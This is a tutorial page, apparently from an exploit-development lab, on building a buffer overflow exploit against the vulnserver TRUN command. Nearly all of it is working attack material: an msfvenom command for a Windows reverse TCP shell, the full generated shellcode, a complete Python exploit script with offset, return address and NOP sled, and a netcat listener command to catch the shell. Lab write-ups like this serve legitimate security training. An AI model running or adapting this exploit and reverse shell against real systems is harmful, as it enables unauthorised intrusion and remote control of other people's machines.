 # Generating Shell Code and getting Root

We will use `msfvenom` to create a payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

`-b` to specify which badchars we cannot use for our payload
Creating a reverse shell payload to connect back to us 
EXITFUNC=thread just makes our exploit a bit more stable

`-f` filetype for exporting our file in C

We get:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xbf\x2c\xe1\x5b\x01\xda\xc8\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x78\x12\x83\xe8\xfc\x03\x54\xef\xb9\xf4\x58\x07\xbf"
"\xf7\xa0\xd8\xa0\x7e\x45\xe9\xe0\xe5\x0e\x5a\xd1\x6e\x42\x57"
"\x9a\x23\x76\xec\xee\xeb\x79\x45\x44\xca\xb4\x56\xf5\x2e\xd7"
"\xd4\x04\x63\x37\xe4\xc6\x76\x36\x21\x3a\x7a\x6a\xfa\x30\x29"
"\x9a\x8f\x0d\xf2\x11\xc3\x80\x72\xc6\x94\xa3\x53\x59\xae\xfd"
"\x73\x58\x63\x76\x3a\x42\x60\xb3\xf4\xf9\x52\x4f\x07\x2b\xab"
"\xb0\xa4\x12\x03\x43\xb4\x53\xa4\xbc\xc3\xad\xd6\x41\xd4\x6a"
"\xa4\x9d\x51\x68\x0e\x55\xc1\x54\xae\xba\x94\x1f\xbc\x77\xd2"
"\x47\xa1\x86\x37\xfc\xdd\x03\xb6\xd2\x57\x57\x9d\xf6\x3c\x03"
"\xbc\xaf\x98\xe2\xc1\xaf\x42\x5a\x64\xa4\x6f\x8f\x15\xe7\xe7"
"\x7c\x14\x17\xf8\xea\x2f\x64\xca\xb5\x9b\xe2\x66\x3d\x02\xf5"
"\x89\x14\xf2\x69\x74\x97\x03\xa0\xb3\xc3\x53\xda\x12\x6c\x38"
"\x1a\x9a\xb9\xef\x4a\x34\x12\x50\x3a\xf4\xc2\x38\x50\xfb\x3d"
"\x58\x5b\xd1\x55\xf3\xa6\xb2\x53\x04\xaa\x46\x0c\x06\xaa\x57"
"\x90\x8f\x4c\x3d\x38\xc6\xc7\xaa\xa1\x43\x93\x4b\x2d\x5e\xde"
"\x4c\xa5\x6d\x1f\x02\x4e\x1b\x33\xf3\xbe\x56\x69\x52\xc0\x4c"
"\x05\x38\x53\x0b\xd5\x37\x48\x84\x82\x10\xbe\xdd\x46\x8d\x99"
"\x77\x74\x4c\x7f\xbf\x3c\x8b\xbc\x3e\xbd\x5e\xf8\x64\xad\xa6"
"\x01\x21\x99\x76\x54\xff\x77\x31\x0e\xb1\x21\xeb\xfd\x1b\xa5"
"\x6a\xce\x9b\xb3\x72\x1b\x6a\x5b\xc2\xf2\x2b\x64\xeb\x92\xbb"
"\x1d\x11\x03\x43\xf4\x91\x23\xa6\xdc\xef\xcb\x7f\xb5\x4d\x96"
"\x7f\x60\x91\xaf\x03\x80\x6a\x54\x1b\xe1\x6f\x10\x9b\x1a\x02"
"\x09\x4e\x1c\xb1\x2a\x5b";
```
Always note our payload size. Here 351 bytes. Useful for exploit development.


We add No Operation (NoOp) padding: "\x90" * 32, adding a bit of padding space between our buffer and the overflow. If we didn't have this, something could interfere and not let our exploit code run 

Our new, final script:
```
#!/usr/bin/python
import sys, socket

overflow = (
"\xbf\x2c\xe1\x5b\x01\xda\xc8\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x78\x12\x83\xe8\xfc\x03\x54\xef\xb9\xf4\x58\x07\xbf"
"\xf7\xa0\xd8\xa0\x7e\x45\xe9\xe0\xe5\x0e\x5a\xd1\x6e\x42\x57"
"\x9a\x23\x76\xec\xee\xeb\x79\x45\x44\xca\xb4\x56\xf5\x2e\xd7"
"\xd4\x04\x63\x37\xe4\xc6\x76\x36\x21\x3a\x7a\x6a\xfa\x30\x29"
"\x9a\x8f\x0d\xf2\x11\xc3\x80\x72\xc6\x94\xa3\x53\x59\xae\xfd"
"\x73\x58\x63\x76\x3a\x42\x60\xb3\xf4\xf9\x52\x4f\x07\x2b\xab"
"\xb0\xa4\x12\x03\x43\xb4\x53\xa4\xbc\xc3\xad\xd6\x41\xd4\x6a"
"\xa4\x9d\x51\x68\x0e\x55\xc1\x54\xae\xba\x94\x1f\xbc\x77\xd2"
"\x47\xa1\x86\x37\xfc\xdd\x03\xb6\xd2\x57\x57\x9d\xf6\x3c\x03"
"\xbc\xaf\x98\xe2\xc1\xaf\x42\x5a\x64\xa4\x6f\x8f\x15\xe7\xe7"
"\x7c\x14\x17\xf8\xea\x2f\x64\xca\xb5\x9b\xe2\x66\x3d\x02\xf5"
"\x89\x14\xf2\x69\x74\x97\x03\xa0\xb3\xc3\x53\xda\x12\x6c\x38"
"\x1a\x9a\xb9\xef\x4a\x34\x12\x50\x3a\xf4\xc2\x38\x50\xfb\x3d"
"\x58\x5b\xd1\x55\xf3\xa6\xb2\x53\x04\xaa\x46\x0c\x06\xaa\x57"
"\x90\x8f\x4c\x3d\x38\xc6\xc7\xaa\xa1\x43\x93\x4b\x2d\x5e\xde"
"\x4c\xa5\x6d\x1f\x02\x4e\x1b\x33\xf3\xbe\x56\x69\x52\xc0\x4c"
"\x05\x38\x53\x0b\xd5\x37\x48\x84\x82\x10\xbe\xdd\x46\x8d\x99"
"\x77\x74\x4c\x7f\xbf\x3c\x8b\xbc\x3e\xbd\x5e\xf8\x64\xad\xa6"
"\x01\x21\x99\x76\x54\xff\x77\x31\x0e\xb1\x21\xeb\xfd\x1b\xa5"
"\x6a\xce\x9b\xb3\x72\x1b\x6a\x5b\xc2\xf2\x2b\x64\xeb\x92\xbb"
"\x1d\x11\x03\x43\xf4\x91\x23\xa6\xdc\xef\xcb\x7f\xb5\x4d\x96"
"\x7f\x60\x91\xaf\x03\x80\x6a\x54\x1b\xe1\x6f\x10\x9b\x1a\x02"
"\x09\x4e\x1c\xb1\x2a\x5b")


# The "vulnerable" return address we found was 625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
		
```

If we have limited space especially, might need to adjust the padding 

We will have to start a listener. Netcat:

```
nc -nvlp 4444
```

Run vulnserver and then run our exploit
GOT ROOT

